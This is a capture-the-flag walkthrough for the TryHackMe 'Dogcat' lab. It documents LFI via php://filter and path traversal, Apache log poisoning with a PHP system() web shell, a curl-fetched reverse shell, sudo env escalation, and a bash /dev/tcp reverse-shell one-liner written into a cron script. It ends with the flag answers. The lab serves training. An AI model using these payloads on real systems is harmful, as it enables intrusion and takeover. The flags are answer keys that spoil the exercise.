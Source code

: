 # Dogcat - Medium

```shell
nmap -T4 -p- -A -v 10.10.161.226

feroxbuster -u http://10.10.161.226 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

vim reverse-shell.php

python3 -m http.server
#transfer shell to victim machine using curl

nc -nvlp 4444

#we get reverse shell on visiting shell.php

pwd

find / -type f -name flag* 2>/dev/null

cat /var/www/flag2_QMW7JvaY2LvK.txt

sudo -l
#we can run env binary as root

sudo /usr/bin/env /bin/sh
#root shell

find / -type f -name flag* 2>/dev/null

cat /root/flag3.txt

ls -la /opt

ls -la /opt/backups

cat /opt/backups/backup.sh
#we can overwrite this to get reverse-shell

echo "#!/bin/bash\nbash -i >& /dev/tcp/10.10.161.226/5555 0>&1" > /opt/backups/backup.sh

#on attacker machine
nc -nvlp 5555
#we get reverse shell here
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1 (Ubuntu)
  * 80 - http - Apache httpd 2.4.38 (Debian)

* We can start by enumerating the webpage for hidden directories.

* The webpage allows us to view photos of dogs and cats, using the 'view' parameter.

* Using ```feroxbuster```, we can figure out that the webpage has directories /cats and /dogs. Besides this, it has a /flag.php page as well, but it cannot be accessed directly.

* When we attempt to view the webpage using ```?view=flag.php```, we get an error message; so we will have to check for other ways to get LFI.

* Using ```?view=cat/../flag.php```, we get error messages - it shows that the code automatically adds '.php' to the end of the path - so it looks for the file 'flag.php.php'

* Futhermore, we cannot use LFI directly here, due to filters; so we can attempt to use other techniques to evade filters by experimenting in Burp Suite Repeater.

* Referring the ```HackTricks``` page for LFI payloads, we get a PHP payload using which we can view the PHP code:

  ```php://filter/convert.base64-encode/resource=index.php```

* Therefore, we can view the PHP source code using:

  ```?view=php://filter/convert.base64-encode/resource=dog```

* This gives us base64-encoded PHP code, and when decoded shows the PHP code for showing dog images.

* As the webpage checks for the strings "dog" or "cat" in the beginning, the request required to view source code for /index.php is:

  ```?view=php://filter/convert.base64-encode/resource=dog/../index```

* Checking the decoded code shows that there is another parameter ```ext``` which adds the default extension '.php', unless specified.

* Now, we can get flag 1 by viewing 'flag.php' similar to how we were able to view 'index.php' above.

* We can view '/etc/passwd' using the following request:

  ```?view=dog/../../../../etc/passwd&ext=```

* Now, we need to attempt to convert LFI to RCE - we can do so using log poisoning method.

* Using the following request, we can view the Apache log files:

  ```?view=dog/../../../../var/log/apache2/access.log&ext=```

* Now, using Burp Suite, we can capture the above request.

* Modify the request's User-Agent field to the value:

  ```<?php system($_REQUEST['c']);?>```

* Now, if we use the following request, we can view the processes running:

  ```?view=dog/../../../../var/log/apache2/access.log&ext=&c=ps```

* Using 'whoami' command similarly, we can see that we are the user 'www-data'.

* Now, we are unable to get reverse-shell using commands (as it's usually done); so we can attempt to transfer reverse-shell file on victim machine using ```curl```.

* Setup the Python http server on attacker machine, and execute the command ```curl http://10.10.161.226:8000/reverse-shell.php -o shell.php``` using RCE in victim machine.

* Now, setup listener and navigate to '/shell.php' - this gives us reverse shell on our listener.

* Now, searching for files with the name 'flag' in it gives flag 2.

* Using ```sudo -l```, we can see that the 'env' binary can be run as root without password.

* We can get exploit for the 'env' binary from GTFObins, and run exploit to get root shell.

* We can get flag 3 from the root directory.

* Now, checking the /opt directory, we have a backups folder inside - this contains a script and a .tar archive.

* The script seems to create an archive of /root/container, a folder which we cannot access directly.

* The .tar file is created recently as well, so we can assume this script to run as a cron job.

* We can overwrite the backup.sh script with a reverse-shell one-liner and setup listener on attacker machine.

* We get reverse-shell on our listener, and we can get flag4 from the /root directory.

```markdown
1. What is flag 1? - THM{Th1s_1s_N0t_4_Catdog_ab67edfa}

2. What is flag 2? - THM{LF1_t0_RC3_aec3fb}

3. What is flag 3? - THM{D1ff3r3nt_3nv1ronments_874112}

4. What is flag 4? - THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
```
